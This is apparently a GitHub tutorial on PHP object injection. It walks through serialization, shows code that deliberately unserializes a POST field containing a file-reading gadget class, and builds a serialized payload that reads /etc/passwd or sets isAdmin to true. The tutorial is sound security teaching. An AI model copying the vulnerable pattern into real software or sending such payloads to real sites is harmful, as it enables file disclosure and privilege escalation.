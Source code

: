 # PHP-Object-Injection

   PHP Object Injection enables the manipulation of an object content that shall be unserialized using the PHP unserialize() function. Thus, to fisrt understand the injection we may first understand the functions serialialize() and unserialize().
   
# Serealization and Deserealization.
   
   Developing web applications sometimes require to transfer data for storing, communication, logging, etc. This way the concepts of serealization and deserealization are born.<br>
     — Serialization is a process that converts an object into a specific structure data format such as convert Java Entity class to JSON format for sending via communication with other services or clients or maybe to storage.<br>
     — Deserialization is a process that converts data format into an object such as client sends requests as JSON data format and back end service convert it to Java Entity Class.<br>
   When receiving untrusted data without sufficient data verification a common vulnerability can be exploited, "Insecure Deserialization" that is in OWASP top 10 Web. 
   
# Exploiting Insecure Deserealization. 
   There are two things interconnected that we need to exploit this:<br>
   
   — The unserializacion of an object which manipulation is feasible from the user’s side (i.e. a cookie storing data as a serialized object)<br>
   — The use of a magic method (__wakeup, __destroy…) that can be abused in order to achieve interesting actions from a malicious user’s perspective (commands remote execution, file manipulation, etc.).

   Now that we know the concepts let's dive into the practice. Firsts things first, let's see how a serialized object looks like, we have a simple class "Users" that have two attributes(username, and isAdmin) and one simple method(PrintData), that verify if the user is or not an admin, then i just create an object and set the values of the attributes, the user is "JeJe" and isn't and admin.<br>
   
   ```php
   
class Users{

      public $username;
      public $isAdmin;

      public function PrintData(){
             if($this->isAdmin){
               echo $this->username . " is an admin\n"; 
             }else{
               echo $this->username . " is not an admin\n";
             }
      }
}

$obj = new Users();
$obj->username = 'JeJe';
$obj->isAdmin = False;

echo serialize($obj);

```
After the echo, using the php interpreter the output is:<br> 

![Alt text](/images/1.png)

O:5:"Users":2:{s:8:"username";s:4:"JeJe";s:7:"isAdmin";b:0;}<br>

   The syntax of the serialized string is relatively easy to understand: The O stands for the type of the serialized string. In this case the O maps to a PHP object. The 5 seperated by the colons represents the length of the name of the obj, so the structure is like "type:lenght:value". The 2 means that the object has two attributes, then the same logic is implemented to the attributes of the class inside of the brackets, 's' for strings and 'b' for boolean.<br>

   Now that we saw how an serialized object looks like let's implement a simple logic to see how we can exploit this. First let's change a litle bit the code, now there is another class in the same file that can read files from the system with the variable "filename".<br>
   
```php
class ReadFile{
 
      public function __tostring(){
             return file_get_contents($this->filename);      
      }

}
class Users{

      public $username;
      public $isAdmin;

      public function PrintData(){
             if($this->isAdmin){
               echo $this->username . " is an admin\n"; 
             }else{
               echo $this->username . " is not an admin\n";
             }
      }
}

$obj = unserialize($_POST['jeje']);
$obj->PrintData();
```

So if supposing that we found this code from a website and we want to verify if the code is vulnerable, looking at the code they are receiving some serialized object from a POST request that has a field 'jeje', and calling the method PrintData() to show if the user is an admin. So we can make a POST request whith the field 'jeje' containing a serialized object that we want, so let's do that.

First we have to create a class with the same attributes and everything, because the object must be equal to the original but with some malicious modifications that won't be noticed. 

```php
class ReadFile{
      
      public function __construct(){
             $this->filename = "/etc/passwd";
      }
}

class Users{

     public function __construct(){
            $this->username = new ReadFile();
	         $this->isAdmin = True;
     }
     
}

$obj = new Users();

echo serialize($obj);
echo "\n";
```

   The modification that i made was adding a constructor method, that is called every time that an object is created, so when the object from the class Users is created the "contructor" is called and it's gonna set the value of the username to another object from the class ReadFile(the class that can read a file from the system), then the constructor of the ReadFile class is called because an object from this class was set to the variable "username". Inside of the constructor the variable "filename" is set to a name from a file that i want to read.<br>

   Everything done we can create the serialized object from this malicious code that we want to inject:

![Alt text](/images/3.png)
   
   Now let's make the POST request with the serialized object that was created. To do this i created a web server on machine with the original users.php file, to be the target.

![Alt text](/images/4.png)
   
As you can se if i change the content from the field "b:0;" i can turn the user "jeje" in admin, because the value 0 is for the variable "isAdmin" and how it's boolean if i set to "1" i can become the admin.<br>

Anyways that was a simple example to you understand how this attack can be exploited, hope u liked :-).   
   

